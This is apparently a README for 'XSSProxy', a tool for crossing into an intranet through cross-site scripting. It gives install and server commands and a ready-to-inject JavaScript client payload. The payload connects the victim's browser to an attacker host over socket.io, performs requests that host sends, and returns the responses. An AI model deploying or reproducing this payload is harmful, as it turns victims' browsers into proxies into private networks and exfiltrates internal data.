 # XSSProxy (Alpha version)

  Cross the intranet via XSS.

## Install
`npm install -g xssproxy`

## Usage
Server:
```command
xssproxy
xssproxy -p 8000 -sp 8001
xssproxy --port 8000 --sio-port 8001
```

client:
```javascript
var script = document.createElement('script');
script.onload = function(){
  var socket = io('http://xssproxy:8001');
  socket.on('request', function (data,send) {
      var xhr = new XMLHttpRequest;
      xhr.open(data.method,data.url); 
      xhr.onload=function(){send(this.responseText);};
      xhr.send();
  }); 
};
script.src = 'http://xssproxy:8001/socket.io/socket.io.js';
document.head.appendChild(script);
```
